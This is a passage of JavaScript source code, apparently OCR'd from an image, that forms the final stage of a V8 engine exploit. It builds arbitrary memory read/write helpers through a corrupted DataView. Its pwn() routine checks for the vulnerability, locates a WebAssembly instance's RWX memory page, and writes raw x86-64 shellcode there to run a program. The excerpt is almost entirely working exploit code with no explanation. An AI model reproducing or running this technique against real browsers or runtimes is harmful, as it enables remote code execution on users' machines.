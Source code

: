 ```
    throw("Overwrite DataBuf backing store failed");
    
}

function dataViewRead64(addr)
{
    overwriteDataBuf(addr);
    let ret = dataView.getFloat64(0, true);
    //print(ret);
    return f2i(ret);
}

function dataViewWrite(addr, payload)
{
    overwriteDataBuf(addr);
    
    for(let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
}

function dataVieWrite64(addr, value)
{
    overwriteDataBuf(addr);
    dataView.setFloat64(0, f2i(value), true);
}



function pwn() 
{
    // step 1 check vuln first
    checkVuln();
    console.log("[+] v8 version is vulnerable");

    // step 2 find overlap properties
    findOverlappingProperties();
    print(`[+] Properties p${p1} and p${p2} overlap`);

    // step 3 gc to form a stable memory state
    gc();

    // step 4 arbitrary code execution with wasm object.
    var wasmObjAddr = addrOf(func);
    console.log("wasm object addr: 0x"+hex(wasmObjAddr));
    var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18) - 1;
    console.log("share info addr: 0x"+hex(sharedInfoAddr));
    var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+0x8) - 1;
    console.log("WasmExportedFunctionData addr: 0x"+hex(wasmExportedFunctionDataAddr));
    var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10) - 1;
    console.log("instance addr: 0x"+hex(instanceAddr));
    var rwx_addr = dataViewRead64(instanceAddr+0xf0);
    console.log("rwx addr: 0x"+hex(rwx_addr));
    
	var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    	96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    	105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    	72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    	72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    	184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    	94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];
    
    dataViewWrite(rwx_addr, shellcode);
```